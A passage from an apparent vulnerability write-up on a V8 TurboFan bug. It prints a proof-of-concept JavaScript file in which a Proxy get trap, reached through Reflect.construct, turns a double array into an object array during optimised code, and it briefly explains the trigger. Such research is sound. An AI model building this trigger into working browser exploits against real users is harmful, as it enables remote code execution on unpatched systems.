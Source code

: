 <br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0.1, 0.2, 0.3, 0.4, 0.5, 0.6, 0.7];
a.pop();
a.pop();
a.pop();

function empty() { }

function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 1.1 : 1.1);
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        % DebugPrint(a);
        return Object.prototype;
    }
});

function main(p) {
    f(p);
}

% PrepareFunctionForOptimization(empty);
% PrepareFunctionForOptimization(f);
% PrepareFunctionForOptimization(main);

main(empty);
main(empty);
% OptimizeFunctionOnNextCall(main);
main(p);
```

<br><br><br>

There are a few parts that have changed here, and if you check just those parts, a.pop creates a space for push and a[1] = {} changes it to an object array.
({} means object)

When you run it, first of all, pop is 3 times and push is 3 times, so from TurboFan's perspective, the current get trap location should correspond to the last push, that is, a[6].

<br><br><br>
